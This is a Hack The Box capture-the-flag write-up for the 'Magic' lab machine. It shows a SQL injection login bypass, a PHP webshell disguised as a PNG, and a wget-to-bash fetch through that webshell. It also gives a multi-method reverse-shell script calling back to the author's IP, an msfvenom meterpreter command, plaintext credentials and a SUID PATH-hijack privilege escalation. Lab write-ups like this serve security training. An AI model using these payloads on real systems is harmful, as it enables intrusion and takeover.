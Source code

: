 ```yaml
---
layout: single
title: Magic - Hack The Box
excerpt: "TBA"
date: 2020-08-22
classes: wide
header:
  teaser: /assets/images/htb-writeup-magic/magic_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  - sqli
  - upload
  - php
  - mysql
  - port forward
  - suid
  - path hijack
---
```


![](/assets/images/htb-writeup-magic/magic_logo.png)

TBA

## Summary

- Bypass the login page with a simple SQL injection
- Upload a PHP webshell after bypassing the file type and extension restriction
- Find DB credentials, then find the password for user theseus in the MySQL database
- Privesc by hijacking the PATH of a SUID binary

## Portscan

![](/assets/images/htb-writeup-magic/nmap.png)

## Website and initial shell

The website is just an image gallery with a link to upload new images at the bottom.

![](/assets/images/htb-writeup-magic/website1.png)

The upload page is protected by a login form for which we don't have valid credentials.

![](/assets/images/htb-writeup-magic/login.png)

We can try some default credentials like `admin / admin` on the login page but they don't work. Next we'll try a very simple SQL injection like `' or '1'='1` in the password field. This effectively make the SQL query always true and we're able to pass the authentication check.

![](/assets/images/htb-writeup-magic/upload.png)

The application filters out what we can upload so we're not able to upload a PHP webshell with the .php extension.

![](/assets/images/htb-writeup-magic/upload1.png)

The application also checks the content of the file so even if we rename the file to a valid image extension it fails the upload check.

![](/assets/images/htb-writeup-magic/upload3.png)

By using a valid PNG image and inserting PHP code in the middle of the file we can pass the magic bytes check to the application will think it's a valid image.

![](/assets/images/htb-writeup-magic/upload4.png)

To bypass the extension check, we can append `.png` and it will still execute the file as PHP code when we do the GET to `/images/uploads/snow.php.png`. This happens because of a subtle misconfiguration in the htaccess configuration file. The regular expression only check if the `.php` string is present in the filename, not that the file name actually ends with `.php`.

```
<FilesMatch ".+\.ph(p([3457s]|\-s)?|t|tml)">
SetHandler application/x-httpd-php
</FilesMatch>
<Files ~ "\.(sh|sql)">
   order deny,allow
   deny from all
```

Now that we have uploaded the webshell we have remote code execution:

![](/assets/images/htb-writeup-magic/rce.png)

With the PHP webshell, I can fetch a bash script from my box and get a reverse shell through Perl:

`http://magic.htb/images/uploads/snow.php.png?c=wget%20-O%20-%20http://10.10.14.35/shell.sh%20|%20bash`

The bash script will try various methods to get a reverse shell back to us:

```bash
if command -v python > /dev/null 2>&1; then
        python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.35",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
        exit;
fi

if command -v perl > /dev/null 2>&1; then
        perl -e 'use Socket;$i="10.10.14.35";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        exit;
fi

if command -v nc > /dev/null 2>&1; then
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.35 443 >/tmp/f
        exit;
fi

if command -v sh > /dev/null 2>&1; then
        /bin/sh -i >& /dev/tcp/10.10.14.35/443 0>&1
        exit;
fi
```

![](/assets/images/htb-writeup-magic/rce2.png)

## Privesc to user theseus

In the web application directory `/var/www/Magic`, we find a PHP script `db.php5` that contains the database configuration file for the web application with the mysql username, password and database name.

```php
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
```

The mysql CLI client isn't installed on the machine so we'll have to do port forwarding to reach port 3306 listening on localhost. There's many ways to do this, here I'll use a meterpreter shell to port forward 3306.

`msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.35 LPORT=5555`

![](/assets/images/htb-writeup-magic/met1.png)

![](/assets/images/htb-writeup-magic/met2.png)

We can now log in to MySQL and we find another password in the **login** table.

![](/assets/images/htb-writeup-magic/mysql.png)

We can use the `Th3s3usW4sK1ng` to su to user `theseus`:

![](/assets/images/htb-writeup-magic/user.png)

## Privesc to root

Looking at SUID files, `/bin/sysinfo` stands out because it's not a standard Linux binary.

![](/assets/images/htb-writeup-magic/sysinfo.png)

The program just seems to be running a bunch of standard Linux programs like `free`.

![](/assets/images/htb-writeup-magic/sysinfo2.png)

By using `ltrace`, we can confirm this and see that the program uses the `popen` function to execute programs:

![](/assets/images/htb-writeup-magic/sysinfo3.png)

The program is vulnerable because we control the PATH and the program doesn't use absolute path to execute the programs so we can execute arbitrary programs as root. To get root I'll just create a script that sets the SUID bit on  `/bin/bash`, name it `free` and call `/bin/sysinfo` after setting the path to my current directory so it doesn't execute the real `free` program but my own script.

![](/assets/images/htb-writeup-magic/root.png)